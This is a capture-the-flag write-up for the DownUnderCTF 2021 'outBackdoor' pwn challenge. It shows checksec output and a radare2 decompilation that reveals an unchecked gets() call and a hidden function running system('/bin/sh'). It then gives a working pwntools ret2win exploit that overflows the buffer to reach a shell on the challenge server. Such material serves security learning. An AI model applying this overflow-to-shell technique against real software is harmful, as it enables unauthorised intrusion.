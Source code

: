 # outBackdoor

> Fool me once, shame on you. Fool me twice, shame on me.
>
> Author: xXl33t_h@x0rXx
>
> [`outBackdoor`](outBackdoor)

## Analysis

### checksec

```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

### Decompile with radare2

```cpp
undefined8 main(void){
    char *s;
    
    sym.buffer_init();
    sym.imp.puts("\nFool me once, shame on you. Fool me twice, shame on me.");
    sym.imp.puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
    sym.imp.gets(&s);
    return 0;
}
```

```
0x00401070    1 43           entry0
0x004010b0    4 33   -> 31   sym.deregister_tm_clones
0x004010e0    4 49           sym.register_tm_clones
0x00401120    3 33   -> 28   sym.__do_global_dtors_aux
0x00401150    1 2            entry.init0
0x00401260    1 1            sym.__libc_csu_fini
0x00401264    1 9            sym._fini
0x00401152    1 67           sym.buffer_init
0x00401040    1 6            sym.imp.setbuf
0x00401200    4 93           sym.__libc_csu_init
0x004010a0    1 1            sym._dl_relocate_static_pie
0x004011d7    1 36           sym.outBackdoor
0x00401030    1 6            sym.imp.puts
0x00401050    1 6            sym.imp.system
0x00401195    1 66           main
0x00401060    1 6            sym.imp.gets
0x00401000    3 23           sym._init
```

There is a `sym.outBackdoor` function in the binary at `0x004011d7`

```cpp
void sym.outBackdoor(void){
    sym.imp.puts("\n\nW...w...Wait? Who put this backdoor out back here?");
    sym.imp.system("/bin/sh");
    return;
}
```

The function just gets us a shell

### Exploit

The exploit should be pretty simple as the binary does not have a lot of protections enabled.

I had an issue where the exploit would work locally, but would result i n`EOF` on the server.

This is due to the stack alignment issue.

A good documentation I refered to is [here](https://ropemporium.com/guide.html)

To fix this issue, I had to add the address of the `sym.outBackdoor` function twice in the payload.

```py
from pwn import *

if args.REMOTE:
    p=remote('pwn-2021.duc.tf',31921)
else:
    p=process('./outBackdoor')

p.recvuntil("song?")

payload="\x90"*24+p64(0x004011d7)+p64(0x004011d7)
p.sendline(payload)
p.sendline("cat flag.txt")
p.interactive()
```

![](/DownUnderCTF_2021/pwn/outBackdoor/imgs/2021-09-25_18-09.png)

flag: `DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}`
